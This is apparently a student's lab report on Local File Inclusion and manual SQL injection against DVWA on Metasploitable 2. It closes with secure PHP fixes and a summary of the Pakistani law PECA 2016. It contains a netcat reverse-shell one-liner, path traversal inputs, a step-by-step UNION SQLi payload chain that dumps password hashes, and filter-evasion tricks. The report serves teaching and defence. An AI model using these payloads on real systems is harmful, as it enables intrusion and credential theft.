








# Task 1: File Inclusion & SQL Injection Technical Audit & Remediation

**Programme:** Digital Forensics & Cyber Security (Atomcamp & PSEB)  
**Cohort:** PSEB-Cyber-ISB-02  
**Candidate Name:** Musab Ahmad  
**Candidate ID:** PSEB-2026-017582 / 23i-2132  
**Target Environment:** Metasploitable 2 Linux (`192.168.23.139`) — DVWA v1.0.7  
**Testing Origin:** Kali Linux 2026 x64 (`192.168.23.138`)  
**Date:** 20 November 2026  

---

## Executive Summary

This audit evaluates two foundational web application vulnerability classes executed against the Damn Vulnerable Web Application (DVWA v1.0.7) hosted on Metasploitable 2: **Local File Inclusion (LFI)** and **Manual Structured Query Language Injection (SQLi)**. 

Both vulnerabilities share an identical root architectural flaw: **unvalidated user input reaching an execution interpreter**. In File Inclusion, user-supplied strings are ingested directly by the PHP filesystem interpreter (`include()`), leading to Full Path Disclosure (FPD) and potential Remote Code Execution (RCE). In SQL Injection, unvalidated input breaks string literal delimiters in the database query interpreter, enabling arbitrary extraction of relational schemas and password hashes.

In accordance with strict security and privacy standards, **live session identifiers (`PHPSESSID`) have been completely omitted/redacted** from all proofs of concept and documentation.

---

## Part A — Local File Inclusion (LFI) to Remote Code Execution (RCE) Chain (20 Marks)

### 1. Empty Parameter Analysis & Error Message Path Disclosure
When the `page` query parameter is submitted with an empty value (`?page=`), the application fails to validate the parameter's existence or length before passing it to PHP's `include()` construct.

```text
Target URL: http://192.168.23.139/dvwa/vulnerabilities/fi/?page=
```



#### Technical Path Disclosure Breakdown:
1. **Error Output:**
   * `Warning: include([function.include]): Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear:../../external/phpids/0.6/lib/') in /var/www/dvwa/vulnerabilities/fi/index.php on line 35`
   * `Warning: Cannot modify header information - headers already sent by ... in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324`
2. **Information Exposure (CWE-200 / FPD):**
   * Reveals the exact document root of the web server: `/var/www/dvwa/vulnerabilities/fi/`
   * Reveals the server's internal framework structure: `/var/www/dvwa/dvwa/includes/`
   * Discloses PHP configuration parameters, specifically the active `include_path` (`/usr/share/php:/usr/share/pear`).
   * An attacker utilizes this path information to calculate exact directory traversal depths (`../`) and construct targeted local file inclusion vectors.

---

### 2. The LFI to RCE Execution Chain
Local File Inclusion alone permits reading files on the host filesystem where read permissions exist (e.g., `?page=../../../../etc/passwd`). However, elevating LFI to **Remote Code Execution (RCE)** requires the PHP interpreter to parse executable code within the included resource:

```
[Attacker Client] 
       │
       ├─► 1. Uploads file with embedded PHP shellcode via unvalidated file upload (/hackable/uploads/shell.php)
       │
       └─► 2. Injects Traversal into LFI parameter: ?page=../../hackable/uploads/shell.php
                                │
                                ▼
                   [PHP include() Interpreter]
                                │
                                ▼ Executes embedded PHP shellcode
                   [Interactive Reverse Shell Session]
```

1. **Step 1 (Staging):** An attacker leverages an unrestricted file upload vulnerability (such as the DVWA File Upload endpoint) to stage an executable file or image containing embedded PHP code into `/var/www/dvwa/hackable/uploads/`.
2. **Step 2 (Execution):** The attacker navigates to the File Inclusion endpoint and inputs the relative path:
   `?page=../../hackable/uploads/shell.php`
3. **Step 3 (Evaluation):** The PHP engine loads the file into memory and evaluates all PHP tags, granting immediate command execution under the web server's security context (`www-data`).

---

### 3. Modern Kali Linux Reverse Shell Engineering: Why `nc -e` Fails
In traditional penetration testing guides, `nc -e /bin/sh <IP> <PORT>` is frequently cited. However, **this command consistently fails on modern Kali Linux and current Debian/Ubuntu distributions**.

#### The One-Line Technical Reason:
> Modern Debian, Ubuntu, and Kali Linux distributions package `netcat` without the `-e` flag (compiled with `-DGAPING_SECURITY_HOLE` omitted) or ship `netcat-openbsd` by default, which strictly removes execution flags for security hardening.

#### Working Modern Reverse Shell Payload:
To bypass this limitation without relying on the `-e` binary argument, a POSIX Named Pipe (FIFO) is created on the target:

```bash
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.23.138 4444 > /tmp/f
```

* **Mechanism:** `mkfifo` creates a first-in, first-out named pipe in `/tmp`. Netcat connects outbound to Kali (`192.168.23.138:4444`), reads input from the pipe, and redirects standard input/output directly to an interactive shell (`/bin/sh -i`), achieving complete bidirectional terminal control.

---

## Part B — Manual SQL Injection: Quote to Dumped Hashes (20 Marks)

All extraction steps below were performed **manually via the web browser without any automated exploitation tools (no sqlmap)**.

| Step | Technique / Objective | Injected Payload | Observed Response / Proof |
|---|---|---|---|
| **Step 1** | **Syntax Breakout (Quote Test)** | `'` | Database throws MySQL syntax error near `'''''`, confirming direct string interpolation. |
| **Step 2** | **Column Count (`ORDER BY`)** | `3' ORDER BY 3#` | Error: `Unknown column '3' in 'order clause'`. Confirms query returns exactly **2 columns**. |
| **Step 3** | **Reflected Columns (`UNION`)** | `1' UNION SELECT 1, 2#` | First name reflects `1`; Surname reflects `2`. Identifies output positions in the DOM. |
| **Step 4** | **Database Fingerprinting** | `1' UNION SELECT version(), database()#` | Returns Version `5.0.51a-3ubuntu5` and Database Name `dvwa`. |
| **Step 5** | **Table Discovery** | `1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()#` | Returns tables: `guestbook,users`. |
| **Step 6** | **Column Enumeration** | `1' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users'#` | Returns columns: `user_id,first_name,last_name,user,password,avatar`. |
| **Step 7** | **Credential Hashes Dump** | `1' UNION SELECT user, password FROM users#` | Dumps all usernames and MD5 password hashes from the `users` table. |

---

### Step-by-Step Proof of Concept & Response Documentation

#### Step 1: Input Breakout & Syntax Error Verification
Injecting a single quote `'` breaks the SQL query delimiter in `SELECT first_name, last_name FROM users WHERE user_id = '$id'`:



#### Step 2: Determining Column Count via `ORDER BY`
Probing `1' ORDER BY 1#` and `1' ORDER BY 2#` succeed. Probing `3' ORDER BY 3#` triggers an error, proving the result set contains exactly **2 columns**:



#### Step 3: Verifying Reflected Columns via `UNION SELECT`
Executing `1' UNION SELECT 1, 2#` reflects both column positions into the DOM (`First name: 1`, `Surname: 2`):



#### Step 4: Extracting Database Version and Active Catalog
Calling native MySQL functions `version()` and `database()`:



#### Step 5: Table Enumeration via `information_schema.tables`
Using `group_concat(table_name)` to aggregate all tables belonging to schema `dvwa` into a single response row:



#### Step 6: Column Enumeration via `information_schema.columns`
Enumerating table attributes for the target `users` table:



#### Step 7: Exfiltrating User Credentials and Password Hashes
Selecting `user` and `password` columns from table `users`:



* **Extracted Credential Hashes:**
  * `admin` : `5f4dcc3b5aa765d61d8327deb882cf99` (MD5: `password`)
  * `gordonb` : `e99a18c428cb38d5f260853678922e03` (MD5: `abc123`)
  * `1337` : `8d3533d75ae2c3966d7e0d4fcc69216b` (MD5: `charlie`)
  * `pablo` : `0d107d09f5bbe40cade3de5c71e9e9b7` (MD5: `letmein`)
  * `smithy` : `5f4dcc3b5aa765d61d8327deb882cf99` (MD5: `password`)

---

## Part C — Architectural Remediation: LFI vs. SQLi & Allowlist Superiority (10 Marks)

### 1. Root Cause Comparison & Fix Architecture

| Vulnerability | Insecure Implementation (Root Cause) | Production Remediation (Code Fix) |
|---|---|---|
| **File Inclusion (LFI)** | Dynamic string concatenation in `include($_GET['page'])` allowing path traversal (`../`) and external protocols. | **Strict Allowlist / Hardcoded Lookup Mapping:** User parameter is treated strictly as an identifier key, never as an active filesystem path. |
| **SQL Injection (SQLi)** | Concatenating untrusted user input into raw SQL queries (`"WHERE user_id = '$id'"`), allowing input to alter query syntax. | **Parameterized Queries / Prepared Statements (PDO):** User input is transmitted out-of-band to the database engine, pre-compiling the SQL structure. |

---

### 2. Production Source Code Remediation

#### Secure File Inclusion Remediation (PHP Allowlist):
```php
<?php
// Strict Allowlist Mapping: No direct path pass-through
$allowed_pages = [
    'home'    => 'home.php',
    'profile' => 'profile.php',
    'contact' => 'contact.php'
];

$page_key = $_GET['page'] ?? 'home';

if (array_key_exists($page_key, $allowed_pages)) {
    include __DIR__ . '/pages/' . $allowed_pages[$page_key];
} else {
    http_response_code(404);
    echo "Error 404: The requested resource does not exist.";
}
?>
```

#### Secure SQL Injection Remediation (PHP PDO Prepared Statements):
```php
<?php
// Parameterized Query: Code and data are strictly separated at the parser
$stmt = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id');
$stmt->execute([':id' => $id]);
$results = $stmt->fetchAll(PDO::FETCH_ASSOC);

if ($results) {
    foreach ($results as $row) {
        echo htmlspecialchars($row['first_name']) . ' ' . htmlspecialchars($row['last_name']);
    }
}
?>
```

---

### 3. Why an Allowlist Beats a Blocklist in Both Vulnerabilities

A **blocklist** (negative security model) attempts to enumerate and filter known bad patterns (e.g., stripping `../`, `'`, `OR`, `UNION`). A blocklist is fundamentally broken because:
1. **Encoding Bypasses:** Attackers bypass string filters using URL encoding (`%2e%2e%2f`), double encoding (`%252e%252e%252f`), unicode variations, and NULL byte injection (`%00`) in older runtimes.
2. **Recursive Stripping Weakness:** Simple string replacements (e.g., replacing `../` with `""`) are completely defeated by nested sequences: `....//` collapses into `../` after one pass.
3. **SQL Filter Evasion:** SQL blocklists are bypassed via case manipulation (`uNiOn sElEcT`), inline comment splitting (`UN/**/ION`), alternative operators (`LIKE`, `RLIKE`), or character encoding functions (`CHAR(0x3a)`).
4. **WAF Limitation:** A Web Application Firewall (WAF) relies on pattern matching and signatures. A WAF provides supplementary defense-in-depth, but **never fixes the underlying architectural vulnerability**.

An **allowlist** (positive security model) defines the exact, finite set of permissible inputs and rejects everything else by default. It mathematically eliminates injection vectors because user data never reaches the interpreter parser.

---

## Part D — Statutory Compliance & PECA 2016 Mapping

Operating client-side attacks, file inclusion exploits, or database dumps against unauthorized systems constitutes severe criminal offenses under the **Prevention of Electronic Crimes Act (PECA) 2016**:

| Statutory Provision | Offense Description | Statutory Maximum Penalty |
|---|---|---|
| **Section 3** | **Unauthorized Access to Information System or Data** | Imprisonment up to **3 months**, fine up to **50,000 PKR**, or both. |
| **Section 4** | **Unauthorized Copying or Transmission of Data** | Imprisonment up to **6 months**, fine up to **100,000 PKR**, or both. |
| **Section 5** | **Interference with Information System or Data** | Imprisonment up to **2 years**, fine up to **500,000 PKR**, or both. |

---

## Appendix — Individual Professional Reflection

**Candidate:** Musab Ahmad — Candidate ID: PSEB-2026-017582 / Registration: 23i-2132  

Executing Task 1 provided critical hands-on validation of how web application vulnerabilities manifest at the interpreter layer. Conducting manual UNION-based extraction without automated tools reinforced the absolute necessity of understanding relational algebra and database metadata dictionaries (`information_schema`). Furthermore, analyzing the failure of `nc -e` on modern Kali Linux distributions emphasized the importance of mastering native POSIX IPC primitives like named pipes (`mkfifo`) rather than relying on legacy binaries. Ultimately, evaluating the remediation models proved that architectural security—specifically parameterized queries and strict allowlisting—is the only permanent defense against code injection.
